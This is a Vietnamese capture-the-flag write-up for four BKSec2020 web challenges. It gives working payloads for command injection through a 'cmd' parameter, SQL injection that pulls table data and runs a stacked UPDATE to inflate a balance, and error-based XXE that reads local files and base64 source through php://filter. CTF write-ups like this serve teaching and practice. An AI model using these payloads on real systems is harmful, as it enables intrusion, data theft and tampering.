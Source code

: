 # BKSec2020-CTF

#         Hacked (Author: Q5Ca)
- Bài này thì khá đơn giản chỉ chúng ta chỉ cần tập trung vào file robots.txt sau đó ta sẽ thấy file sitemap.xml => nhận dc `http://52.163.126.205:24033/shell1337/` ok v là ta có thể chạy shell trên local , chỉ việc get the flag!. `BKSec{robots.txt_is_S0_interesting}`.
#         Admin watch tower (Author: Sudo)
- Mới vào trang web ta  thấy `total 12 drwxrwxr-x 2 1000 1000 4096 Mar 30 17:25 . drwxr-xr-x 1 root root 4096 Feb 26 11:59 .. -rw-rw-r-- 1 1000 1000 777 Mar 30 17:25 index.php`
  + Tôi đoán có thể control bằng get request và đầu ra của source code là `system($_GET)`, thử đầu tiên với parameter là `?cmd=ls` responts : `Hack con keci ` kèm theo video LỚN RỒI! tiếp tục thử các chữ cái đều bị chặn , xong thử tới các kí tự đặc biệt thì chỉ có 1 dấu `/` là sài được , nhưng kí tự tiếp theo sau dấu `/`chỉ cho phép các kí tự đặc biệt . 
  + V cũng không sao , thử dùng kí tự nối 2 câu lệnh trên linux là `;` với payload :`?cmd=/;ls ` xem có j hot. BOOM. respont trả về `index.php` 
  + V là có thể get the flag rồi ! payload hoàn chỉnh :`?cmd=/;cd ../../../../ ; cd etc ;cat h3r3_is_ur_FlAg.txt` flag:`BKSec{Ngh3___nh4c____DSK_____d1____kh0n9___t4o___d4m___ch3t___d4y}`.
 #        Shitcoin(Author: Q5Ca)
 -  Bài này khá thú vi đối với tôi , tuy làm ko giống ý đồ của tác giả, nhưng sau khi lấy được flag thì được tác giả có chỉ hướng đi , tôi cũng hiểu được phần nào tầm quan trọng của bài này . OK bây giờ tôi sẽ giải bài này theo cách của tôi!
 -  Bài này chỉ là gửi tiền cho người khác kèm theo là 1 message . tôi suy luận 2 trường hợp:
    + 1 là tìm user có tiền trong database.
    + 2 là tự insert tiền cho mình (có khả quan hơn, và tôi chọn làm trước) .
 -  Sau khoảng thời gian lay hoay tìm chỗ inject thì tôi cũng tìm được 1 chỗ là message.
    + Message là chỗ sẽ inject dữ liệu vào database , và sẽ select ra ở phía, người nhận . Do đó ta có thể dùng inject select query để lấy các dữ liệu như tên bảng, tên cột và value của các cột.  
    + Nhưng do tính cẩu thả , tôi fuzz qua loa ,tuy có thử '||' nhưng lúc đầu không được nên tôi bỏ qua, và tôi đã dùng payload quá  chuối là `0"+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))+"` thì nó sẽ chuyển các chữ cái thành số  hệ Dec và gửi cho người nhận, ta chỉ việc decode ra được các chữ và cứ thế theo cách này là ra được các tên bảng và các cột ``` ledger -> id,amount,sender_id,receiver_id,message   và   users -> id,username,password ``` . Nếu muốn lấy values của các cột thì dùng `0"+ascii(substr((select id from users limit 1 OFFSET 0),1,1))+"`.
    + Tiếp đó tôi thử dùng multi insert nhưng KHÔNG KHẢ QUAN payload `0"),("1000","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","HAH`  , với chuỗi dài nhất đó là id của người gửi và người nhận.
    + Quyết định chơi luôn stacked query . update tiền cho mình ban đầu tôi dùng với payload `a"); UPDATE ledger SET amount=1000000-- -` mình sẽ bị -1000000 và người nhận sẽ dc 1000000 .Cứ chuyển qua chuyển lại thì sẽ đc tiền r mua flag thôi. `BKSec{now_u_know_RELATIONAL_database}` 
 -  Ngoài ra các bạn có thể sử dụng payload :`"||(SELECT VERSION())||" ` để tìm version cũng như thay đổi 1 chút trong payload để tìm các bảng và các cột và values cột nhanh nhất .  
 #          XML Suck(Author: Q5Ca)
 -  Bài này là mình solve cuối cùng , vì mình chưa rành về `XXE` nên việc làm nó cũng hơi khó khăn với mình . 
  - Tác giả cho source thì mình biết flag ở source và cái $user ko dc show ra ngoài nên ko thể dùng được` xxe to retrieve files`.
  - Còn lại 2 kĩ thuật blind và error based .
    + Dùng Blind thì bị chặn stream http. 
    + Còn lại error base . ok tiến hành thử file DTD local để exploit , nhưng không có file dtd nào ở local cả. 
    + Lên gg đọc tài liệu và tìm payload thì phát hiện 1 payload ko cần dtd ở local . 
 payload : 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
 ```
 - Ngon rồi ! thử ráp vào xem chạy được không nhé!
 payload:
 ```
     <?xml version="1.0" encoding="UTF-8"?> 
    <!DOCTYPE message[ 
      <!ELEMENT message ANY >
      <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "index.php">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %NUMBER;
    ]> 
    <creds>
    <user></user>
    <pass></pass>
    </creds>
 ```
 respont :
 ```
 <br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: file:///nonexistent/&lt;?php 
    error_reporting(E_ALL);
    ini_set( in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): xmlParseEntityDecl: entity error not terminated in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/index.php</b> on line <b>10</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>11</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>12</b><br />
You have logged in as user !!!
 ```
 - Vậy là thành công r , h chỉ việc dùng wrapper php://filter là móc tất tần tật source code ra !
 payload `php://filter/zlib.deflate/convert.base64-encode/resource=index.php`
 và 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=index.php">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<creds>
<user></user>
<pass></pass>
</creds>
 ```
 respont : ```XZBBTwIxEIXv/ophY7I1gYAHLyIYyHIwLnCQg56asjuUxm7btLsKUf+703U3IfbSTt+br9P38OiODq6AFnpvPfforK+VkWzFF3l+M201ZRQPWLO0VMFpceatOaRDuP3v0FZ2Kq/EiWs05LqbTMjXGrXanyrNCST2GjmaWtVnrq0o0QM7CB2wQ16T76A0wgzixiXWvLCmppbAUpr7fjxWxjV12jeUtiKzwU/ItuvMFk1FXnahjubxodd1znr4EPKnJV3wzXa12cF3X2a7LN8usr638FgGYgdVOY3xA3SgoDhBWST3xibQN2Zdw2gey05xIoQLJZZ/ChZHC8mbbeAoPhAoQIklBQoiQIsbDAZJBzloIQmSLp9fsPiKg6rAk9WJQgmK8lwL/964XBjZCInJTzq9+gU= ```. 
 Chỉ việc decode là ra flag :BKSec{XML_is_"ExtensibleMarkupLanguage"}
 tool: https://www.samltool.com/decode.php
